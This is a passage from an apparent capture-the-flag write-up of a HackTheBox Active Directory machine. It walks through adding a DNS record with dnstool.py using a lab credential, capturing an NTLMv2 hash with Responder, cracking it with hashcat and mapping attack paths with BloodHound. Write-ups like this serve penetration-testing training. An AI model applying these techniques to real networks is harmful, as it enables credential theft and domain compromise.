 
https://cheatsheet.haax.fr/windows-systems/privilege-escalation/delegations/

https://github.com/dirkjanm/krbrelayx

So we'll just use `dnstool` to add a domain name which will point to our IP address

```bash

python3 dnstool.py -u intelligence.htb\\Tiffany.Molina -p NewIntelligenceCorpUser9876 -r web.intelligence.htb -a add -d YOUR_IP TARGET_IP

```

<img src="https://i.imgur.com/2NwwtJl.png"/>


And after adding it we'll run `responder` , Responder an LLMNR, NBT-NS and MDNS poisoner. It will answer to specific NBT-NS (NetBIOS Name Service) It supports NTLMv1, NTLMv2 hashes

<img src="https://i.imgur.com/KjkU2c3.png"/>

<img src="https://i.imgur.com/fXv4tkt.png"/>

Boom ,we got the the NTLMv2 hash , now we need to crack this hash , I'll use `hashcat`

<img src="https://i.imgur.com/s5LnOMt.png"/>

<img src="https://i.imgur.com/EEaDfMu.png"/>

<img src="https://i.imgur.com/eXJnUYt.png"/>

After getting the password so I thought of maybe running `python bloodhound injestor` through which we can enumerate the AD and then pass those json files to `bloohound`

<img src="https://i.imgur.com/P2Poq6F.png"/>

<img src="https://i.imgur.com/lMpJIuE.png"/>

Start `neo4j` and bloodhound ,I have configured bloodhound in a way that it doesn't ask for password you can search on how to do it as well anyways launching bloodhound

<img src="https://i.imgur.com/UGttwJS.png"/>

Make an archive of those files and then drag and drop to GUI

<img src="https://imgur.com/yowh4BY.png"/>

Now we can run `Shortest Path to Unconstrained Delegation Systems` query

<img src="https://i.imgur.com/m4goLFm.png"/>

We can see that the user `Ted.Graves` is a member of ITSupport group further more that group has access to `ReadGSMAPPassword` through which can get to Service account `SVC_INT`

We can read about this as well 
